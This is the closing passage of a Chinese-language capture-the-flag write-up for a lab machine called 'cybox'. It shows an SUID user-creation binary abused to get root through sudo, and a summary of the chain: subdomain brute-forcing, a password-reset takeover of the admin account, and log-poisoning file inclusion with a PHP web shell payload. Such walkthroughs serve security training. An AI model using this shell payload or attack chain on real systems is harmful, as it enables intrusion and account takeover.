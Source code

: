 这是个创建用户的脚本，直接创建sudo用户，发现它在sudo组里

```
daemon@cybox:/opt$ /registerlauncher sudo
/registerlauncher sudo
bash: /registerlauncher: No such file or directory
daemon@cybox:/opt$ ./registerlauncher sudo
./registerlauncher sudo
sudo@cybox.company has been created successfully. The credentials are sudo:sudo. You should change your default password for security.
daemon@cybox:/opt$ cd /home
cd /home
daemon@cybox:/home$ ls
ls
admin  cybox  sudo  zfy
```

切换到sudo用户，密码也为sudo

```
daemon@cybox:/home$ su sudo
su sudo
Password: sudo

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

sudo@cybox:/home$
```

发现sudo可以执行任何命令，直接bash

```
sudo@cybox:/home$ sudo -l
sudo -l
[sudo] password for sudo: sudo

Matching Defaults entries for sudo on cybox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sudo may run the following commands on cybox:
    (ALL : ALL) ALL
sudo@cybox:/home$ sudo bash
sudo bash
root@cybox:/home#
```

<img src=".\图片\Snipaste_2022-11-26_19-05-50.png" alt="Snipaste_2022-11-26_19-05-50"  />

#### 总结：

发现域名，爆破子域名加入hosts，发现更多信息

注册登录修改密码功能，实现越权，替换修改密码链接中重要信息，修改admin@cybox.company的密码

关键url  http://monitor.cybox.company/admin/styles.php?style=general  发现文件包含，直接包含apache日志写shell反弹shell `<?php system($_GET[a]); ?>`

提权时发现一个suid文件是创建用户的脚本，于是创建sudo用户，发现其sudo -l可以执行任意命令。于是执行bash成功提权到root





